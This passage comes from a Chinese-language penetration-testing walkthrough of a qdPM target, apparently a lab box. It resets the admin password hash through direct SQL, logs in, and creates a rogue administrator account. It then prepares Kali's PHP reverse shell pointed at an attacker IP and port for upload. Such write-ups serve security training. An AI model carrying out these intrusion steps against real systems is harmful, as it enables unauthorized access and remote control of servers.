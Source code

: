 ### 3. 更换密码

- 获取新密码Hash
  
  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ mkpasswd --method=md5crypt 123456
  $1$adnGQYCQ$WuriExp3cVu6svSX3qAqw0
  ```

- 写入数据库表
  
  ```bash
  MySQL [qdpm]> update configuration set value='$1$adnGQYCQ$WuriExp3cVu6svSX3qAqw0' where id=2;
  ```

- 查询确认
  
  ```bash
  MySQL [qdpm]> select value from configuration where id=2;
  +------------------------------------+
  | value                              |
  +------------------------------------+
  | $1$adnGQYCQ$WuriExp3cVu6svSX3qAqw0 |
  +------------------------------------+
  1 row in set (0.000 sec)
  ```

## 阶段三：进入qdPM系统

### 1. 登录qdPM系统

<mark>账号：</mark>`admin@localhost.com`

<mark>密码：</mark>`123456`

### 2. 查找有用信息

- 发现可新增用户，尝试新建一个管理员账户。
  
  <mark>Full Name:</mark>`test`
  
  <mark>Password:</mark>`test`
  
  <mark>Email:</mark>`test@test.test`

### 3. 上传 Reverse Shell

> - kali系统自带有反弹SHELL文件，
>   
>   位于`/usr/share/webshells/php/php-reverse-shell.php`
> 
> - 复制文件，并修改文件中的`IP`为本机`192.168.1.150`，端口号为`8888`。
>   
>   修改之后将其放入文件夹`/home/kali/Document`。
